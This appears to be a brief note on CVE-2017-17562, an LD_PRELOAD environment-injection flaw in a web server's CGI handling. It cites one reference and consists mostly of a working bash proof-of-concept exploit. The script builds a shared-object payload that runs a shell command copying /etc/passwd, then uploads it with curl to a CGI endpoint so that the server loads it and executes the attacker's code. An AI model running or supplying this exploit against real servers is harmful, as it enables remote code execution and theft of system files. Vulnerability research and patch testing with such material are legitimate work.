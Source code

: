 ## CVE-2017-17562 - LD_PRELOAD cgi env 注入漏洞

参考链接

* [REMOTE LD_PRELOAD EXPLOITATION](https://www.elttam.com.au/blog/goahead/)

Poc 

```
#!/bin/bash

cat > payload.c << EOF
void __attribute__ ((constructor)) setup ()
{
	unsetenv("LD_PRELOAD");
	
    system("cp /etc/passwd /tmp");
    write(1, "Hello: World!\n", 14);
}
EOF

gcc -fPIC -shared payload.c -o payload.so

curl -i -X POST --data-binary @payload.so "http://127.0.0.1/cgi-bin/cgitest?LD_PRELOAD=/proc/self/fd/0"
```

